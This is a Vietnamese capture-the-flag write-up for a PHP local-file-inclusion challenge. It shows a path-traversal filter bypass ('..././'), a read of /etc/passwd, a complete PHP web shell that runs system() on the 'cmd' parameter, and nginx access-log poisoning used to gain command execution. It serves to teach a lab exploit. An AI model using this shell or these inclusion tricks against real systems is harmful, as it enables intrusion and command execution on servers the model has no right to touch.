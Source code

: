 # LOCAL FILE INCLUSION TO RMOTE FILE INCLUSION 

[link chanllenge](https://battle.cookiearena.org/challenges/web/php-inclusion-to-rce)

### Giao điện
>  đây là giao diện của challnge
![Alt text](image.png)
cái này nó chỉ có 1 chức năng thôi ! 
là button *What is CTF ? 
nó đọc file dựa vào trên URl
![Alt text](image-1.png)
*Dùng dirsearch xem nó có thư mục khác không ? 
![Alt text](image-2.png)
không có gì để thử 
đọc file qua param thử chọc path traversal xem có dính ko ? 
thử ``` ../../``` xem 
![Alt text](image-3.png)
có vẻ nó đã không hoạt động , mình lùi 2 cấp mà vẫn đọc được file ctf.txt 
thử dùng encoding xem 
``` %2e%2e%2f```
![Alt text](image-4.png)
vẫn ko được :> có vẻ nó đang dùng blacklist và không encoding 
thường nó sẽ dùng blacklíst  ```../``` replace cái này trong input 
thử thành  ```..././``` và nó sẽ thành ```../```sau khi xóa blacklist
![Alt text](image-5.png)
và nó đã ko đọc được file ctf.txt 
chứng tỏ mình đã thành công ! 
hint : là tìm trong root đi 
![Alt text](image-6.png)
ok nãy thấy dùng dirsearch thấy có 1 file /file thôi , lùi 2 cấp là ra được root  thử đọc ```etc/passwd``` xem được không ? 
![Alt text](image-7.png)
ok rùi => đọc file flag.txt thôi 
![Alt text](image-8.png)
méo đọc được anh em ạ :> , chắc là nó có tên khác ? 
> tên khác thì mình biết thế nào được mà xem :>>>
xem được tên khác mà vul là file path thì RCE thử xem => lên mạng nhặt 1 file shell php vứt vào index xem được ko ? 
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
code link vứt vào input xem sao ! 
![Alt text](image-9.png)
vẫn không chạy anh em ạ :> 
trường hợp không chạy  ? 
- ![Alt text](image-10.png)
là tham số ```ALLOW_URL```bằNG OFF
2 là hàm đọc này nó ko cho remote url 
có thể là ```fopen```
và biết server nó là ngnix 
và đọc được file log của nó ! 
``` /var/log/nginx/access.log```
![Alt text](image-11.png)
:> đây là thử gửi 1 request lên mà trong các trường http header của mình chứa code php mà hàm đọc này có chức năng execute thì -> sử dụng shell xem được tên của flag mới 
![Alt text](image-12.png)
và giờ kiểm tra log thôi , nhớ thêm ```&cmd=ls /``` để chạy os commnad 
đây là request vừa gửi lên 
![Alt text](image-13.png)
giờ request đó đã chứa code php chỉ chờ $_GET  có value trên URL 
![Alt text](image-14.png)
giờ đã có tên mới flag ->  mở thôi ! 
![Alt text](image-15.png)

